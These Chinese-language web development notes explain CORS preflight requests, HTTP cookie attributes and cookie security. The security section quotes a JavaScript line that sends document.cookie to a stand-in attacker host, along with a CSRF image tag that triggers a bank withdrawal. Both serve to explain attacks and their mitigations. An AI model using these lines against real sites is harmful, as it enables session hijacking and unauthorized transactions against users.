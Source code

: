 另外, 某些情况下, 浏览器必须首先使用 OPTIONS 方法发起一个预检请求, 从而获知服务端是否允许该跨域请求. 这些情况包括使用 Get, PSOT, HEAD 以外的方法, 使用自定义的请求头, 使用 `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain` 以外的 `Content-Type` 等等.

一个预先请求的例子:

请求消息头
```
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-PINGOTHER, Content-Type
Credentials: true
```

响应消息头
```
Access-Control-Allow-Origin: http://foo.example
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 8000
```
预请求完成之后, 浏览器才会发送实际请求.

Fetch 与 CORS 的一个有趣的特性是, 可以基于  HTTP cookies 和 HTTP 认证信息发送身份凭证. 一般而言, 对于跨域 Fetch 请求, 浏览器不会发送身份凭证信息. 如果要发送凭证信息, 需要设置 `Credentials = true`
### Cookies
HTTP Cookie 是服务器发送到用户浏览器并保存在本地的一小块数据, 它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上. 通常, 它用于告知服务端两个请求是否来自同一浏览器, 如保持用户的登录状态. Cookie 使基于无状态的 HTTP 协议记录稳定的状态信息成为了可能.

Cookie 主要用于以下三个方面:

- 会话状态管理(如用户登录状态, 购物车, 游戏分数或其它需要记录的信息)
- 个性化设置(如用户自定义设置, 主题等)
- 浏览器行为跟踪(如跟踪分析用户行为等)

客户端数据的存储不再推荐使用 Cookies, 而是建议使用 Web Storage 或 IndexedDB.

#### 创建 Cookie
服务器可以在响应头里面添加 `Set-Cookie: yummy_cookie=choco`, 浏览器请求时请求头上自动带上 `Cookie: yummy_cookie=choco`.

#### 属性
- 标记 Secure 的 Cookie 应通过被 HTTPS 协议加密过的请求发送给服务端
- 标记 HttpOnly 使得 Document.cookie API 无法访问 Cookie
- Max-Age: Cookie 指的是有效时长, Expires 指的是到期时间(不建议使用, 因为系统时间设置可能有问题)
- Domain 标识指定了哪些主机可以接受 Cookie. 如果不指定, 默认为当前文档的主机(不包含子域名). 如果指定了 Domain, 则一般包含子域名. 例如, 如果设置 Domain=mozilla.org, 则 Cookie 也包含在子域名中(如 developer.mozilla.org).
#### 安全
1. 会话劫持和 XSS: 在 Web 应用中, Cookie 常用来标记用户或授权会话. 因此, 如果 Web 应用的 Cookie 被窃取, 可能导致授权用户的会话受到攻击. 例如使用来窃取 Cookie, `(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;` HttpOnly 类型的 Cookie 由于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击.

2. 跨站请求伪造(CSRF): 比如在不安全聊天室或论坛上的一张图片, 它实际上是一个给你银行服务器发送提现的请求:
    ```html
    <img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
    ```
